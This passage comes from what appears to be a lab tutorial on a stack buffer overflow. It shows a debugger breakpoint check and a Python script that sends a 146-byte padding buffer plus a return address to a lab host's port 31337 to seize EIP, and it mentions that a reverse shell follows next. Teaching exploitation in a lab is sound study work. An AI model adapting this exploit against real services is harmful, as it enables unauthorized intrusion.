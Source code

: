 This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:

![Break Point](breakPoint.png)

After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "\xf7\xf8\x6b\x76" 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:

![Own EIP](ownEIP.png)

Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
